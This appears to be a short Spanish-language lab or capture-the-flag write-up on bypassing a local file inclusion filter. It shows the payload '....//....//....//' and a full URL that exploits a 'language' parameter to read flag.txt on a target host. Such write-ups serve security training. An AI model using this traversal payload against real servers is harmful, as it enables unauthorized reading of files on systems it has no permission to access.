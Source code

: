 # LFI: ByPass Filter 🔐

La página web que vulneraremos es:

![Web.PNG](./assets/02-Segundo/01-web.PNG)

* Podemos seleccionar un **lenguaje** para nuestra página web, aquí es donde la url usa un **párametro** `?languaje=languages/<Archivo>.php`

---

El payload que usaremos es: `....//....//....//`
* **URL**: `http://<IP>/index.php?language=languages/....//....//....//....//....//flag.txt`

<p align="center">
    <img src="/assets/02-Segundo/02-flag.PNG">
</p>